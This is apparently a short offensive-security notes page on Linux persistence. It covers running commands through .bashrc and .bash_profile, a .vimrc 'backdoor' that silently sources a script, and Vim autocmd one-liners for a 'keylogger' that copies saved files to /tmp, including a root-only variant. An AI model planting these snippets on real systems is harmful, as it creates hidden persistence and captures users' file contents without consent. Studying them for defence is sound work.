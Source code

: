 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Config_Files
---
```


<span style="font-size: 35px; color:red"><b>Linux Configuration Files</b></span>

You can add bash commands to these file to execute them:
- <span style="color:red">.bash_profile</span>: run when the system boots.
- <span style="color:red">.bashrc</span>: run when a new terminal window is open.

---
&nbsp;

---
<span style="font-size: 25px; color:white"><b>Vim Configuration Backdoor</b></span>

Opening VIM, you can run commands (after the <span style="color:red">:</span>) like <span style="color:red">! touch /tmp/test.txt</span>

Modify <span style="color:red">.vimrc</span> (or create a new one like <span style="color:red">.vimrunscript</span>) adding commands and load them with <span style="color:red">:silent !source ~/.vimrunscript</span> (where <span style="color:red">vimrunscript</span> is a bash script file)
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Vim Keylogger</b></span>
```shell
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
OR
```shell
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```
